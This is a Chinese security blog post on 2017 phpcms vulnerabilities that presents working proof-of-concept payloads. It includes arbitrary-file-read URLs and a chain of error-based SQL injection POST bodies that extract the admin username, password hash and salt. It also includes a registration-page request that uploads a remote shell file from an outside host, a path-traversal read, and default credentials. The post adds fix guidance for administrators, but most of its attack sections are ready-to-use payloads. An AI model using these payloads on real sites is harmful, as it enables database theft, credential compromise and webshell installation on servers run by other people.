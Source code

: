 ```yaml
---
title: phpcms漏洞
date: 2017-04-12 09:07:42
comments: true
tags:
- phpcms漏洞
- 文件包含漏洞
- cms漏洞
categories: web安全
permalink: 01
---
```

<blockquote class="blockquote-center">风华是一指流砂，苍老是一段年华</blockquote>
　　最近某位大牛说，将放出3个phpcms的0day漏洞，目前我所了解到的已经有2个phpcms漏洞被流传开来，并放出了poc。phpcms应用范围还是比较广的，在此记录分享一下几个最新的phpcms漏洞。
<!--more -->
免责申明：*文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负*

### phpcms 任意文件读取漏洞
更新于2017年5月4日
漏洞具体细节参考：http://bobao.360.cn/learning/detail/3805.html
#### 漏洞利用
方案一：
登录普通用户，访问链接：
```bash
http://localhost/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3D./phpcms/modules/content/down.ph&f=p%3%25252%2*70C
```
获取分配的att_json,然后将这段json值带入到down类的init函数中去：
```bash
http://localhost/index.php?m=content&c=down&a=init&a_k=013ceMuDOmbKROPvvdV0SvY95fzhHTfURBCK4CSbrnbVp0HQOGXTxiHdRp2jM-onG9vE0g5SKVcO_ASqdLoOSsBvN7nFFopz3oZSTo2P7b6N_UB037kehz2lj12lFGtTsPETp-a0mAHXgyjn-tN7cw4nZdk10Mr2g5NM_x215AeqpOF6_mIF7NsXvWiZl35EmQ
```
方案二：
在未登录的情况下访问：
```bash
http://localhost/index.php?m=wap&c=index&a=init&siteid=1
```
获取当前的siteid,然后再访问:
```bash
http://localhost/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3D./phpcms/modules/content/down.ph&f=p%3%25252%2*70C
POST_DATA:userid_flash=14e0uml6m504Lbwsd0mKpCe0EocnqxTnbfm4PPLW
```
#### 修复方案
升级至官方最新版本

### phpcms sql漏洞
#### Poc
存在sql注入漏洞的页面：
http://192.168.1.139:8080/phpcms/index.php?m=member&c=index&a=login
获取当前数据库，post：
```bash
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2bdatabase())%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
获取当前用户，post：
```bash
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2buser())%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
获取表名：
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2btable_name%2bfrom%2binformation_schema.tables%2bwhere%2btable_schema='phpcmsv9'%2blimit%2b0%252c1)%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
若要获取其他表名，修改limit即可。
获取用户名:
```bash
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2busername%2bfrom%2bv9_admin%2blimit%2b0%252c1)%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
获取密码：
```bash
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2bpassword%2bfrom%2bv9_admin%2blimit%2b0%252c1)%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
获取到的密码为30位的md5，一般的MD5是32位，所以我们需要再获取后2位：
```bash
orward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(substring((select%2bpassword%2bfrom%2bv9_admin%2blimit%2b0%252c1)%252c-2%252c2))%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
phpcms是加盐（salt）的，获取salt:
```bash
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2bencrypt%2bfrom%2bv9_admin%2blimit%2b0%252c1)%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
以上Poc来自：https://www.unhonker.com/bug/1834.html

#### exp漏洞利用脚本
exp利用脚本在这里不公开放出了，大家可以利用在线检测平台进行检测：https://www.seebug.org/monster/
exp脚本可以参考：https://www.waitalone.cn/phpcmsv9-authkey-exp.html
漏洞细节请参考：http://mp.weixin.qq.com/s/cI-wbQyX-3WLhxJ5kqez4A

#### 漏洞修复方案
* 去掉modules\content\down.php文件

### phpcms注册页面getshell漏洞

* 存在的漏洞：php远程文件包含、任意文件上传
* 漏洞利用点：phpcms注册页面
* 利用类型：http post请求导致任意文件上传+getshell

#### Post Poc
```bash
siteid=1&modelid=11&username=newbie&password=newbie&email=newbie@qq.com&info[content]=<img src=http://shhdmqz.com/newbie.txt?.php#.jpg>&dosubmit=1&protocol=
```
注意：*http://shhdmqz.com/newbie.txt*为远程服务器上的shell文件，这个漏洞利用了远程文件包含与文件上传漏洞。

#### 漏洞利用细节
　　访问注册页面发送post包，重构info字段内容，写入远程包含的文件地址《*img src=http://shhdmqz.com/newbie.txt?.php#.jpg*》，newbie.txt为文件名，?.php#.jpg为构造的文件名，为了绕过后缀名限制。回包将会有报错信息，但文件可以上传成功，且报错信息中含有上传的文件路径，可用菜刀链接。

#### exp漏洞利用脚本
exp利用脚本在这里不公开放出了，大家可以利用在线检测平台进行检测：https://www.seebug.org/monster/

#### 漏洞修复方案

暂时性修复：

* 关闭注册页面
* 关闭远程文件包含，即关闭allow_url_fopen

彻底性修复：
修改phpcms/libs/classes/attachement.class.php文件中的download函数在
foreach($remotefileurls as $k=>$file)循环中，大约是167行左右的位置，将
```bash
if(strpos($file, '://') === false || strpos($file, $upload_url) !== false) continue;            $filename = fileext($file);
```
修改成
```bash
$filename = fileext($k);
```

关于文件包含漏洞，可参考：[文件包含漏洞](http://thief.one/2017/04/10/2/)

### 任意文件读取漏洞
```bash
index.php?m=search&c=index&a=public_get_suggest_keyword&url=asdf&q=..\/..\/caches/error_log.php 
```
### phpcms敏感信息

* 默认账号密码：phpcms/phpcms
* 默认后台： http://www.xx.com/index.php?m=admin&c=index&a=login&pc_hash=   
* 会员中心地址：index.php?m=member&c=index&a=login 


*本篇将持续跟踪phpcms最新漏洞状况，并附上检测方法以及修复方案，协助管理员早日修复漏洞，谢谢！*

>转载请说明出处:[phpcms漏洞| nMask'Blog](http://thief.one/2017/04/12/1/)
本文地址：http://thief.one/2017/04/12/1/



